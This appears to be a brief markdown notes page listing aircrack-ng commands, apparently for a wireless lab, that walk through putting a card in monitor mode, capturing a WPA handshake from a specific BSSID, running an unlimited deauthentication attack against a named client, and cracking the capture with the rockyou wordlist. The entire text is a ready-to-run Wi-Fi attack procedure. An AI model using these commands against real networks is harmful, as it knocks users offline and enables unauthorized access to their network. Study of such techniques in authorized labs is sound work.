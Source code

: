 # Start wireless to monitor mode

```bash
airmon-ng start wlan0
```

# Kill unnessary process

```bash
airmon-ng check kill
```

# Scanning Wireless Network

```bash
airodump-ng wlan0mon
```

# Sniff WiFi-IT ( Wireless Labs Network) and Waiting Handshake

```bash
sudo airodump-ng -c 6 --bssid F0:9F:C2:71:22:12 -w wifi-mobile wlan0mon
```
# Dauth Attack from other terminal and check Sniff session (EAPOL and Handshake Cpature)

```bash
sudo aireplay-ng -0 0 -a F0:9F:C2:71:22:12 -c 28:6C:07:6F:F9:43 wlan0mon
```

# Crack Handshake file 

```bash
aircrack-ng -b F0:9F:C2:71:22:12 -w ./Desktop/rockyou.txt ./wifi-mobile-02.cap
```